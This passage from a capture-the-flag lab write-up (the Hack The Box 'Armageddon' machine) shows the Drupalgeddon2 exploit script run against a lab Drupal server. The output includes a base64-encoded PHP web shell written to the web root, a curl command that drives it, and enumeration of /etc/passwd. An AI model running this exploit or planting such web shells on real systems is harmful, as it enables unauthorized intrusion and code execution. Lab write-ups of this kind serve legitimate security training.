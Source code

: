 Try the exploit again:

```text
┌──(root💀kali)-[~/htb/armageddon]
└─# ruby 44449.rb http://10.10.10.233/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.233/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo PZKUSDYA
[+] Result : PZKUSDYA
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.233/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
armageddon.htb>>
```

## Enumeration

It works, and we now have our semi-interactive shell. Let's have a look around:

```text
armageddon.htb>> whoami
apache

armageddon.htb>> ls /home
ls: cannot open directory /home: Permission denied

armageddon.htb>> grep -v -e '/nologin' -e '/bin/false' -e '/bin/sync' /etc/passwd
root:x:0:0:root:/root:/bin/bash
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```
